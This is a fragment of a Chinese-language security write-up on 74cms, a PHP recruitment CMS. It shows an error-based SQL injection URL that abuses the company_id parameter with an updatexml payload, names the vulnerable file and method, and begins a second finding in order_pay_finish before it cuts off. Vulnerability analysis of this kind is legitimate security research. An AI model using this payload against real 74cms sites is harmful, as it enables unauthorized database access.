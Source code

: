 ```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](img/803839caebf87a12ddd04ee7c56788fc.png)

看源码

![image](img/2b467e89aa43f14b3bb4a1a1844db3a3.png)

打开文件： 74cms\upload\Application\Common\Model\PersonalFocusCompanyModel.class.php 方法：add_focus(

![image](img/198e78a38c9e19869d45199588d99eb2.png)

## 0x06 74cms 独有框架漏洞第二处

文件：74cms\upload\Application\Home\Controller\CompanyServiceController.class.php 方法：order_pay_finish( 是否需登录：需要 登录权限：企业用户即可 看源码
